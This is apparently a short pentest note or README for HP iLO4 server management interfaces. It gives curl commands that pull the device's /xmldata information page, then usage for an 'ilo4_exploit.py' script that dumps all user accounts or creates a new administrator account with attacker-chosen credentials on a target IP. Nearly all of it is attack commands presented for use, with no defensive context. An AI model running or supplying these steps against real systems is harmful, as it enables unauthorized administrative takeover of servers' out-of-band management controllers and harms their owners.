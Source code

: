 # hpilo4
# HTTP
curl http://'ip'/xmldata?item=ALL
# HTTPS
curl -k https://'ip'/xmldata?item=ALL

# iLO4 exploit
python ilo4_exploit.py 'ip' 'option'
	
  'ip', help='target IP'
	'-t', action='store_true', default=True, help='Test. Trigger the exploit and list all users'
	'-e', action='store_true', default=False, help='Exploit. Create a new admin user with the credentials specified in -u and -p'
  '-u', help='username of the new admin user'
	'-p', help='password of the new admin user'

